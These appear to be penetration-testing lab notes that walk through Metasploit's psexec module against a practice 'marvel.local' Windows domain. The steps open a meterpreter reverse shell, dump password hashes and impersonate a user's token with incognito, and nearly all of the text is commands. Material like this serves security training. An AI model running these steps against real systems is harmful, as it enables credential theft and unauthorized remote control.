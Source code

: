 **Tokens are much like web cookies. They are a temporary key that allows you to access the system and network without having to provide credentials each time you access a file. Incognito exploits this the same way cookie stealing works, by replaying that temporary key when asked to authenticate.**
```bash
sudo msfdb run
```
```bash
use exploit/windows/smb/psexec
```
```bash
set rhost $TARGET
```
```bash
set smbdomain marvel.local
```
```bash
set smbpass Password1
```
```bash
set smbuser groot
```
```bash
show targets
```
```bash
set target 2
```
```bash
set payload windows/x64/meterpreter/reverse_tcp
```
```bash
set lhost eth0
```
```bash
run
```
```bash
hashdump
```
```bash
getuid
```
```bash
sysinfo
```
```bash
load incognito
```
```bash
list_tokens -u
```
Impersonate token will only show users who are logged in until rebooted.
```bash
impersonate_token marvel\groot
```
